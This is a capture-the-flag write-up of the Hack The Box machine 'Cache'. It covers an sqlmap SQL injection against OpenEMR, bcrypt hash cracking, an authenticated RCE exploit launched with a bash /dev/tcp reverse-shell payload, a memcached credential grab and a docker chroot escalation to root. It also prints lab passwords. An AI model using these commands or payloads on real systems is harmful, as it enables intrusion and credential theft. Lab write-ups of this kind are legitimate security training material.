# Cache


Cache is a medium box that involved finding credentials in JavaScript, performing an SQL injection attack to dump a password hash. Then cracking the hash and using it to execute an authorised RCE exploit. Once on the box we switched to one of the users with credentials from earlier to get the user flag, then find credentials in memcached to switch to another user. Then we used a Docker GTFOBin to get root.

# Overview
- Enumeration of the target
- Discovering credentials in JavaScript
- Finding a second hostname
- Enumerating second website
- SQL injection attack
- Logging in with dumped password
- Executing an authenticated RCE exploit
- Switching to ash user with credentials from before
- user.txt
- Switching to luffy with credentials from memcached
- Privilege escalation
- root.txt

# Enumeration

## Nmap

```bash
finlay@kali:~$ nmap -sC -sV 10.10.10.188
Starting Nmap 7.80 ( https://nmap.org )
Nmap scan report for 10.10.10.188
Host is up (0.033s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 a9:2d:b2:a0:c4:57:e7:7c:35:2d:45:4d:db:80:8c:f1 (RSA)
|   256 bc:e4:16:3d:2a:59:a1:3a:6a:09:28:dd:36:10:38:08 (ECDSA)
|_  256 57:d5:47:ee:07:ca:3a:c0:fd:9b:a8:7f:6b:4c:9d:7c (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Cache
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```

We can see SSH and a website, let's start by enumerating the website.

## Gobuster

```bash
finlay@kali:~$ gobuster dir -u http://10.10.10.188 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 200 -q
/javascript (Status: 301)
/jquery (Status: 301)
/server-status (Status: 403)
```

Let's take a look at the jquery folder.



Inside the functionality.js file we find the credentials for ash: `H@v3_fun`



We can login to the site, but there is nothing of interest there, maybe these creds will be useful later.



## Further Enumeration

After further searching of the website, I found this at the bottom of the about page:



It mentions HMS, Hospital management system, let's see if there is a second hostname to do with that.

First, we need to add hms.htb to our hosts file by adding ```10.10.10.188    hms.htb cache.htb``` to our /etc/hosts file. If you want to learn why you can have 2 hostnames on the same IP, you can read [this](https://stackoverflow.com/a/823740)

Then we can navigate to the website.



# Exploitation

## SQL Injection

We can see that it uses OpenEMR, after searching online, I found [this](https://www.open-emr.org/wiki/images/1/11/Openemr_insecurity.pdf), which details different types of exploits. The one we are going to use is an SQL injection attack on the `find_appt_popup_user.php` page.

Let's capture the GET request with Burp, so we can copy it to a file to use sqlmap on.

First we need to navigate to the portal page and click `Register`.



Now we can navigate to `hms.htb/portal/find_appt_popup_user.php?​catid=1`

This is the page we are going to do the SQL injection attack on, turn your proxy on and capture it with Burp:


Then copy the GET request to a text file so we can run sqlmap on it.

```bash
sqlmap -r request.txt --dbs
```

This returns:

```bash
available databases [2]:
[*] information_schema
[*] openemr
```

Let's have a look at the tables in the `openemr` database.

```bash
sqlmap -r request.txt -D openemr --tables
```

This shows us lots of tables, the most interesting one being: `users_secure`

We can dump the table to see any interesting information:

```bash
sqlmap -r request.txt -D openemr -T users_secure --dump
```

And this returns:



## Hash Cracking

We can crack this password hash using john the ripper. Just put the password hash into a file and run john on it (ignore the salt).

```bash
finlay@kali:~/htb/cache/new_resources$ sudo john hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 32 for all loaded hashes
Will run 4 OpenMP threads
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Warning: Only 5 candidates buffered for the current salt, minimum 12 needed for performance.
Warning: Only 7 candidates buffered for the current salt, minimum 12 needed for performance.
Almost done: Processing the remaining buffered candidate passwords, if any.
Warning: Only 11 candidates buffered for the current salt, minimum 12 needed for performance.
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
xxxxxx           (openemr_admin)
1g 0:00:00:02 DONE 2/3 0.4273g/s 5635p/s 5635c/s 5635C/s water..88888888
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

And we can see that the openemr_admin password is `xxxxxx`

Once we are logged in, we can see that it is running OpenEMR 5.0.1:



## RCE

We find an authenticated RCE exploit for this version on [exploit-db](https://www.exploit-db.com/exploits/45161), we run the script with the path to the login, the username and password, and the command we want to execute, which is a bash reverse shell.

First, set up a listener for the connection:

```bash
finlay@kali:~$ nc -nvlp 4444
listening on [any] 4444 ...
```

Then execute the exploit:

```bash
finlay@kali:~/htb/cache$ python exploit.py http://hms.htb -u openemr_admin -p xxxxxx -c 'bash -i >& /dev/tcp/LOCAL_IP/LOCAL_PORT 0>&1'
 .---.  ,---.  ,---.  .-. .-.,---.          ,---.    
/ .-. ) | .-.\ | .-'  |  \| || .-'  |\    /|| .-.\   
| | |(_)| |-' )| `-.  |   | || `-.  |(\  / || `-'/   
| | | | | |--' | .-'  | |\  || .-'  (_)\/  ||   (    
\ `-' / | |    |  `--.| | |)||  `--.| \  / || |\ \   
 )---'  /(     /( __.'/(  (_)/( __.'| |\/| ||_| \)\  
(_)    (__)   (__)   (__)   (__)    '-'  '-'    (__) 
                                                       
   ={   P R O J E C T    I N S E C U R I T Y   }=    
                                                       
         Twitter : @Insecurity                       
         Site    : insecurity.sh                     

[$] Authenticating with openemr_admin:xxxxxx
[$] Injecting payload
```

And we can see we got a connection on our listener:




We can see that there are two users on the target, `ash` and `luffy`, let's see if we can switch to ash with the credentials we found at the start: `H@v3_fun`.



## User.txt

Now we can find the user flag in /home/ash:



# Privilege Escalation

## Switching User

Next we have to get access to luffy's account, after further enumeration we discover that the target is running memcached on port 11211. We can connect to this with telnet and get luffy's password.



Now that we know luffy's password is `0n3_p1ec3`, we can switch to his account.



Now to enumerate the target from the inside, we can run linpeas, and we see that we are in the docker group:

```bash
====================================( Basic information )=====================================
OS: Linux version 4.15.0-109-generic (buildd@lgw01-amd64-010) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020
User & Groups: uid=1001(luffy) gid=1001(luffy) groups=1001(luffy),999(docker)
```

## Docker GTFOBin

Using the docker GTFOBin from [here](https://gtfobins.github.io/gtfobins/docker/) we can get root. All we need to modify is the operating system, as the target is running Ubuntu. The command we use is:

```bash
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash
```

And we get root:



## Root.txt

And then we can get the root flag in /root

